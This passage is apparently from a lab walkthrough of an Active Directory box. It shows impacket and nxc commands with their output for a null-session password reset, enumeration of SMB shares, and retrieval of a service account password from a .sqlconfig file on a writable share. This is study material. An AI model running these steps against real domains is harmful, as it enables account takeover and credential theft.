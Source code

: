 ```
[*] Password was changed successfully.

impacket-changepasswd sendai.vl/Thomas.Powell:''@sendai.vl
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Current password: 
New password: 
Retype new password: 
[*] Changing the password of sendai.vl\Thomas.Powell
[*] Connecting to DCE/RPC as sendai.vl\Thomas.Powell
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```

### Expanded SMB Access
With valid credentials, additional SMB shares become accessible:
```
nxc smb sendai.vl -u 'Elliot.Yates' -p 'Pass!@#' --shares
SMB         10.129.77.37    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.129.77.37    445    DC               [+] sendai.vl\Elliot.Yates:Pass!@# 
SMB         10.129.77.37    445    DC               [*] Enumerated shares
SMB         10.129.77.37    445    DC               Share           Permissions     Remark
SMB         10.129.77.37    445    DC               -----           -----------     ------
SMB         10.129.77.37    445    DC               ADMIN$                          Remote Admin
SMB         10.129.77.37    445    DC               C$                              Default share
SMB         10.129.77.37    445    DC               config          READ,WRITE      
SMB         10.129.77.37    445    DC               IPC$            READ            Remote IPC
SMB         10.129.77.37    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.77.37    445    DC               sendai          READ,WRITE      company share
SMB         10.129.77.37    445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.77.37    445    DC               Users           READ            
```
Now have Read/Write access to `config` share.
### Credential Discovery
The `config` share contains a SQL configuration file with credentials:
```
impacket-smbclient sendai.vl/Elliot.Yates:'Pass!@#'@sendai.vl
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use config
# ls
drw-rw-rw-          0  Mon Oct 20 23:24:08 2025 .
drw-rw-rw-          0  Wed Apr 16 05:55:42 2025 ..
-rw-rw-rw-         78  Tue Jul 11 15:57:10 2023 .sqlconfig
# get .sqlconfig
```
**Credentials Found:**
- Username: `sqlsvc`
- Password: `SurenessBlob85`
Credentials validated successfully:
```
nxc smb sendai.vl -u sqlsvc -p 'SurenessBlob85' 
SMB         10.129.77.37    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.129.77.37    445    DC               [+] sendai.vl\sqlsvc:SurenessBlob85 
```
